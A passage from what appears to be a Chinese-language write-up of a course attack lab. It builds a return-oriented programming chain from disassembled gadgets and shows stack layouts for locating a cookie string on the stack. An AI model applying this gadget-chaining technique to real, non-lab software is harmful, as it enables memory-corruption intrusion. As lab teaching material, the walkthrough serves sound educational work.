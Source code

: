 ```assembly
0000000000401919 <setval_232>:
  401919:	c7 07 c8 48 89 e0    	movl   $0xe08948c8,(%rdi)
  40191f:	c3                   	retq   
  
0000000000401932 <addval_479>:
  401932:	8d 87 48 89 e0 c3    	lea    -0x3c1f76b8(%rdi),%eax
  401938:	c3                   	retq   
```

为了方便叙述，我们给从缓冲区开始的栈地址标上相对地址，从 0x0 开始：

```assembly
0x00 - 0x0f: 00 01 02 03 04 05 06 07 - 08 09 00 01 02 03 04 05
0x10 - 0x1f: 06 07 08 09 00 01 02 03 - movq %rsp,%rax 的地址
0x20 - 0x2f: 00 00 00 00 00 00 00 00 - 00 00 00 00 00 00 00 00
0x30 - 0x3f: 00 00 00 00 00 00 00 00 - 00 00 00 00 00 00 00 00
0x40 - 0x4f: 00 00 00 00 00 00 00 00 - 00 00 00 00 00 00 00 00
0x50 - 0x5f: 00 00 00 00 00 00 00 00 - 00 00 00 00 00 00 00 00
0x60 - 0x6f: 00 00 00 00 00 00 00 00 - 00 00 00 00 00 00 00 00
```

由于执行 movq 指令时，`'movq %rsp,%rax' 的地址` 这 8 个字节已经出栈了，因此 %rax 中记录的地址其实是 0x20。

#### Step 2

这个 0x20 相当于一个基地址，我们还需要一个偏移量才能确定 cookie 字符串的首地址。这需要我们做加法，我们很快发现 farm 有类似功能的函数 add_xy，甚至还贴心的为你写了注释：`871840`(小端法)

```c
/* Add two arguments */
long add_xy(long x, long y)
{
    return x+y;
}
```

```assembly
0000000000401887 <add_xy>:
  401887:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  40188b:	c3                   	retq   
```

这个加法要求我们必须将基址和偏移量存到 %rdi 和 %rsi 中，最后的结果存到 %rax 中。那么这应该是倒数第二个 gadget，最后一个 gadget 是 `movq %rax %rdi`，这在上一关中已经发现了。

#### Step 3

偏移量的具体的值可以通过 gadget 的数量人为计算得到，但是它是一个立即数，怎么将立即数存到寄存器中呢？等等，这不就是上一关的要求吗！我们直接采用 `popq %rax`，然后把偏移量存到这一指令地址的下一个 8 字节中即可：

```assembly
0x00 - 0x0f: 00 01 02 03 04 05 06 07 - 08 09 00 01 02 03 04 05
0x10 - 0x1f: 06 07 08 09 00 01 02 03 - movq %rsp,%rax 的地址
0x20 - 0x2f: movq %rax %rdi 的地址    - popq %rax 的地址
0x30 - 0x3f: 偏移量立即数              - 00 00 00 00 00 00 00 00
0x40 - 0x4f: 00 00 00 00 00 00 00 00 - 00 00 00 00 00 00 00 00
0x50 - 0x5f: 00 00 00 00 00 00 00 00 - 00 00 00 00 00 00 00 00
0x60 - 0x6f: 00 00 00 00 00 00 00 00 - 00 00 00 00 00 00 00 00
```
